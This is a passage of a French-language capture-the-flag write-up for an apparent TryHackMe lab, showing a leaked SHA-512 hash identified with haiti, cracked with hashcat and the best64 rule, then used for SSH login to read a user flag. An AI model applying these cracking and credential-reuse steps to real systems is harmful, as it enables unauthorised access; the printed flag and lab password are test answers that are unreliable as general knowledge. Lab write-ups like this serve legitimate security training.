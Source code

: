 On extrait les données.  

Harry Turner         | b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
                     | My linux username is my first name, and password uses best64

On trouve un commentaire que le nom d'utilisateur est Harry. 
Et le mot de passe utilise la règle best64 de hashcat.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
SHA-512 [HC: 1700] [JtR: raw-sha512]
```

On identifie le hash ave haiti, qui nous dit que c'est du SHA-512. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 1700 hash spellnames.txt -r /usr/share/hashcat/rules/best64.rule --quiet
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
```

On casse le mot de passe avec la règle best64.rule, le mot de passe est : wingardiumleviosa123  

![page1](./Task1-02.png)

On s'identifie avec les idenfiant : Harry Turner:wingardiumleviosa123
On voit un message qui dit que réutiliser le mot de passe c'est une mauvaise idée.   

**User1.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh harry@hogwartz-castle.thm
The authenticity of host 'hogwartz-castle.thm (10.10.56.77)' can't be established.
ECDSA key fingerprint is SHA256:tqvs4QmNV2BNfZVq42KFIsFtERVf7F4W5ziragiTf/0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'hogwartz-castle.thm,10.10.56.77' (ECDSA) to the list of known hosts.
harry@hogwartz-castle.thm's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020
harry@hogwartz-castle:~$ ls
user1.txt
harry@hogwartz-castle:~$ cat user1.txt 
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```
